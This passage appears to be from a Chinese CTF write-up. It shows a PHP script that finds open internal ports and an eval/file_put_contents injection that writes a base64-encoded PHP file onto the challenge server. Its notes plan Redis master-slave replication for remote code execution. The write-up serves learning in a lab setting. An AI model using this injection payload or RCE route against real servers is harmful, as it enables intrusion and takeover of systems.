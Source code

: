 ```
<?php
highlight_file(__FILE__);
# Port scan
for($i=0;$i<65535;$i++) {
  $t=stream_socket_server("tcp://0.0.0.0:".$i,$ee,$ee2);
  if($ee2 === "Address already in use") {
    var_dump($i);
  }
}
```

```
http://ac6da717-484f-4cb4-a233-d0d637678502.node4.buuoj.cn:81/?exp=eval(file_put_contents("1.php",base64_decode($_POST['a'])));

POST:
PD9waHAKaGlnaGxpZ2h0X2ZpbGUoX19GSUxFX18pOwojIFBvcnQgc2Nhbgpmb3IoJGk9MDskaTw2NTUzNTskaS
srKSB7CiAgJHQ9c3RyZWFtX3NvY2tldF9zZXJ2ZXIoInRjcDovLzAuMC4wLjA6Ii4kaSwkZWUsJGVlMik7CiAgaW
YoJGVlMiA9PT0gIkFkZHJlc3MgYWxyZWFkeSBpbiB1c2UiKSB7CiAgICB2YXJfZHVtcCgkaSk7CiAgfQp9Cg==
```

![image-20220217194615600](images/18.png)

同样探测到80和8888端口

有端口有密钥,正常的想法就是用redis的主从复制RCE

按照常规思路是可以利用蚁剑等工具直接连接redis来实现主从复制RCE的，

但是蚁剑是利用 stream_get_contents() 来实现redis连接交互的，这里ban了这个函数，所以需要寻找其他的⽅法来和redis交互

![image-20220217195026084](images/19.png)
